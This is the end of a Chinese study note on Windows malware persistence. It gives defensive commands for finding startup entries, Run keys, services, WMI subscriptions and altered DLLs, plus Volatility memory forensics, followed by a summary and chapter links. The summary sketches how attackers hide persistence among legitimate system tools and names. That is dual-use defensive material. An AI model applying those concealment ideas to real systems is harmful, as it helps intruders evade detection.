Get-CimInstance Win32_StartupCommand | Select Name, Command, User, Location

# 2. 检查注册表 Run 键
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce"

# 3. 列举计划任务
tasklist /m
Get-ScheduledTask | Select TaskName, State, LastTaskResult, NextRunTime

# 4. 检查服务
sc queryex type= service state= all
Get-Service | Where-Object {$_.StartType -eq 'Automatic'} | Select Name, Status, StartType

# 5. 检查浏览器扩展
# Chrome: %LocalAppData%\Google\Chrome\User Data\Default\Extensions
# Firefox: %AppData%\Mozilla\Firefox\Profiles\*.default\extensions

# 6. WMI 订阅
Get-WmiObject -Namespace root\subscription -Class __EventFilter
Get-WmiObject -Namespace root\subscription -Class __EventConsumer
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding

# 7. DLL 加载异常
Get-ChildItem -Path "C:\Windows\System32" -Filter "*.dll" | 
  Where-Object {$_.LastWriteTime -gt (Get-Date).AddDays(-7)}

# 8. 内存取证（Volatility）
volatility.py -f memory.dump imageinfo
volatility.py -f memory.dump pslist
volatility.py -f memory.dump dlllist -p <PID>
```

---

## 小结

持久化是恶意代码生命周期中的咽喉位置——没有它，再复杂的恶意功能也只能活一次；有了它，即便代码被清除，下次系统启动又会复活。这也是为什么持久化检测和对抗如此重要。

从防御视角，持久化是一个**"高度可审计"的环节**：大多数持久化机制（注册表、服务、计划任务）都留下明确的配置痕迹，可被自动化工具精准扫描。一个写得好的基线/监控系统，往往能在持久化建立的瞬间就捕捉到。

从对抗视角，持久化是一个**"技术+隐蔽并重"的环节**：光有技术不够，还要混入合法程序的噪声中——使用系统 DLL 名、伪造发布者、隐藏在深层注册表路径。这也是为什么"Living off the Land"（利用系统本身工具做坏事）成为现代恶意代码的首选。

本章覆盖的所有技术，都基于对 Windows 启动/加载流程的深入理解。掌握了这些，不仅能快速识别样本的持久化策略，还能在防御规划时提前堵住可能的入侵通道。

---

## 相关阅读

- [[32.hooks/11-process-injection|进程注入技术全谱]]
- [[32.hooks/12-kernel-hook|内核钩子与驱动后门]]
- [[32.hooks/15-etw|ETW 事件跟踪与检测]]
- [[53.数字取证与事件响应/00.数字取证与事件响应总览|数字取证与事件响应总览]]
- [[72.抓包与协议分析实战/12.流量特征分析与检测绕过|流量特征分析与检测绕过]]
- [[72.抓包与协议分析实战/19.网络取证与流重组|网络取证与流重组]]
- [[27.Go与Rust现代二进制逆向/00.Go与Rust现代二进制逆向总览|Go与Rust现代二进制逆向总览]]

[[00.恶意代码分析与免杀对抗总览|⬆ 系列总览]] | [[07.进程镂空与傀儡进程Hollowing|← 上一章]] | [[09.提权与UAC绕过|→ 下一章]]
